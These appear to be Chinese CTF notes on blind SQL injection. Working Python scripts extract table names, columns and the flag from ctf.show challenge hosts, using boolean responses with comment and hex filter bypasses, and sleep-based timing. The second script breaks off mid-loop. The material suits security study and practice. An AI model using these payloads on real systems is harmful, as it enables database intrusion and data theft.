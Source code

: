 ## 基于布尔的盲注

在过滤逗号、分号时，可以使用脚本。

python脚本如下：

```python
import requests
s=requests.session()
url='http://7e6ff073-41c1-49a4-8ed7-1d91dd71867f.challenge.ctf.show:8080/'
table=""

for i in range(1,45):
    print(i)
    for j in range(31,128):
        #爆表名  flag
        #payload = "ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database())from/**/%s/**/for/**/1))=%s#"%(str(i),str(j))
        #爆字段名 flag
        #payload = "ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name=0x666C6167)from/**/%s/**/for/**/1))=%s#"%(str(i),str(j))
        #读取flag
        payload = "ascii(substr((select/**/flag/**/from/**/flag)from/**/%s/**/for/**/1))=%s#"%(str(i), str(j))

        ra = s.get(url=url + '?id=0/**/or/**/' + payload).text

        if 'I asked nothing' in ra:
            table += chr(j)
            print(table)
            break
```

table_name可以使用每个字母的ASCII码的16进制数表示，例如flag：0x666C6167

## 基于时间的盲注

页面没有变化，只能使用基于时间的盲注。

Python脚本如下：

```python
import requests

if __name__ == '__main__':
    url = 'http://cbeb409a-91dd-4b51-a03e-0295776e36a5.challenge.ctf.show:8080/?id=1%27 and '
    result = ''
    i = 0
    while True:
        i = i + 1
        low = 32
        high = 127
        while low < high:
            mid = (low + high) // 2
            #payload = f'if(ascii(substr((select group_concat(schema_name) from information_schema.schemata),{i},1))>{mid},sleep(0.5),0)%23'
            #payload = f'if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema="ctfshow"),{i},1))>{mid},sleep(0.5),0)%23'
            #payload = f'if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name="flagug"),{i},1))>{mid},sleep(0.5),0)%23'
            payload = f'if(ascii(substr((select group_concat(flag4a23) from ctfshow.flagug),{i},1))>{mid},sleep(0.5),0)%23'
            # print(payload)
            r = requests.get(url=url + payload)
            try:
```